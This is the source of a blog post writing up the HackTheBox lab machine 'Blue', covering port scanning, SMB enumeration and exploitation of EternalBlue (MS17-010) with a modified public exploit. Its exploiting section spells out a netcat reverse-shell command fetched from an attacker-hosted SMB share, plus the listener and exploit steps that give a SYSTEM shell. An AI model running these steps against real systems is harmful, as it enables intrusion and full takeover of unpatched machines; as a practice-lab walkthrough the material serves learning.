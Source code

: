 ```yaml
---
layout: post
comments: true
title: "Blue HTB Write Up"
tags: ['hackthebox', 'writeup', 'eternal-blue']
---
```


## Introduction
Today we are going to PWN a HackTheBox machine called Blue.
Blue is an easy machine, we are going to use tools such as nmap to scan the ports, crackmapexec to recognise all the network devices via smb.
We are going to exploit an EternalBlue vulnerability, and finally we are going to learn how to inject code in the victim's machine through this vulnerability.

## Dependencies
* In order to everything work you must have Python2 and pip2 installed.
[HowToInstallPip2Parrot](../../../../2021/12/30/installing-pip2-on-parrot.html)

* crackmapexec
```bash
sudo apt install crackmapexec
```

## Ports recognizement
The ip address of this machine is the 10.10.10.40.
First we need to indetify all the ports open on the machine, we are going to run:
```bash
nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.10.40 -oG ports
```
* -sS -> TCP SYN (Stealth) Scan
* --min-rate -> specify the number of packets you are sending per second
* -p- -> scan all range of ports
* --open -> only scan open ports
* -vvv -> while the program in running you can get additional information about hte proccess
* -n -> don't use DNS resolution
* -Pn -> use it if the host is blocking ping proves
* -oG -> return the result in a grepeable file in order to proccess it later

We are going to use [getPorts](https://github.com/isuckatlinux/getPorts) to extract all the relevant data from the nmap output
```bash
getPorts ports
```

Once we extracted all the ports we are going to find out the service they are running:
```bash
nmap -sC -sV -p135,139,445,49153 10.10.10.40 -oN services
```
* -oN -> return the output into a nmap file
* -sV -> enum services
* -p*p1, p2, pn* -> specify this ports


We can see port 445 open, this might be a smb vulnerability, let's find out.
With [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) we can see all the devices using a service over the entire network (beside other uses)
```bash
crackmapexec smb 10.10.10.0/24
```
*Because we are targeting a particular computer we could also specify this computer and not the entire network*



We see the host is runnning windows7 🤓 <br>
MS017, most know as Eternal Blue, was a vulnerability in the smb protocol that affectes WindowsXP and windows7 computers.
If this haven't been patched on the machine this means that we already got a very serious vulneravilty in the system that will allow us to execute code as admin.

We are going to see two ways of see if this machine is vulnerable:
1. Nmap scripts.<br>
Nmap have a lot of scripts that allows checking multiple vulneravilities. These scripts are sorted by categories.
In order to see all the categories in nmap we could run:
```bash
locate .nse | xargs grep "categories" | grep -oP '"*"' | sort -u
```
We can see a bunch of categories, we will cover all the categories in another post soon 🤖.
For the time we are going to be using "vuln and safe"
So lets run:
```bash
nmap --script "vuln and safe" -p445 10.10.10.40 -oN smbVulnerable
```
![image1](../assets/images/blue-htb/nmap_scripts_output.png)
BINGO! We can see in the picture the service is vulnerable

2. Eternal blue checker <br>
We are going to use a [checker](https://github.com/worawit/MS17-010) 
```bash
git clone https://github.com/worawit/MS17-010
cd MS17-010
```
The checker is named *checker.py*<br>
We run:
```bash
python2 checker.py 10.10.10.40
```
We can see all the pipes are denied.
We have to try the user 'guest'. We look into the code and we see two fields empty, the username and the password.
We introduce 'guest' in the username string.
<br>
We run again:
```bash
python2 checker.py 10.10.10.40
```

![image2](https://abusinglinux.com/assets/images/blue_htb/username_guest.PNG)<br>
As we can see we have a bunch of pipes that reported OK. <br>


## Exploiting
In the exploiting phase we could use Metasploit, but there is an issue with that. Eternal blue is a kernel-level vulnerability, that means that if anything goes wrong (or everything doesn't go perfect) we most likely to have blue screen or very inestable shells.
That's why in these cases where you want to have all control is actually better to just inject the code yourself.

In order to proceed to inject code we are going to use the repo we used before to check the vulnerability [MS17-010](https://github.com/worawit/MS17-010).

Now we are going to use the zzz_exploit.py
This exploit run a trivial command on the victim's machine. We are going to find that command and replace it with our personal one.
The method we are going to edit is *smb_pwn*.<br>
We are going to comment all lines of the code except the first one. And we are going to decomment the *service_exec* line <br>
The code should look like this:<br>
![image3](https://abusinglinux.com/assets/images/blue_htb/zzz_modified.PNG)

We are going to exploit this vulnerability by sharing a folder with smb witch contains [netcat](https://es.wikipedia.org/wiki/Netcat) and we are going to run netcat from the victims machine to produce a reverse shell.
The command we have to inject is the next
```bash
cmd /c \\<your_tun0_ip>\sharedFolder\nc.exe -e cmd <your_tun0_ip> 443
```
So you the line have to look like that:
```python
service_exec(conn, r'cmd /c \\<your_tun0_ip>\sharedFolder\nc.exe -e cmd <your_tun0_ip> 443')
```
In addition, we have to set the username to 'guest' just how we did on the checker

So, the steps are:
1. Share a folder with the netcat
    * We have to locate netcat in our machine and copy it to our folder wich we are going to be sharing soon
    ```bash
    locate nc.exe
    cp *path_to_netcat* $(pwd)
    ```
    If you are not able to locate nc.exe here's a link to download [netcat](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip)<br>
    *At this point we have to have netcat in our folder*

    * Share the folder
    ```bash
    imppacket-smbserver sharedFolder $(pwd) -smb2support 
    ```
    *The flag smb2support is no necessary beacuse we are dealing with version one of the smb protocol, but It's a good practice to give support v2 just in case*


2. Listening at port 443 to get the reverse shell
```bash
    nc -nlvp 443
```
3. Finallly exploiting!
We could use any pipe the checker reported to be OK.<br>
We are going to use samr

```bash
zzz_exploit.py 10.10.10.40 samr
```

>BOOM 💥

If everything it's working fine we should see a shell.
We could run
```cmd
whoami
```
We should see nt authority system, that means that we have admin privileges.

Now let's see the flags:
```cmd
cd C:\Users\haris\Desktop
type user.txt

cd C:\Users\Administrator\Desktop
type root.txt
```

Thank's all for reading this! I hope you enjoyed this writing, any feedback is welcome.

{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://isuckatlinux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}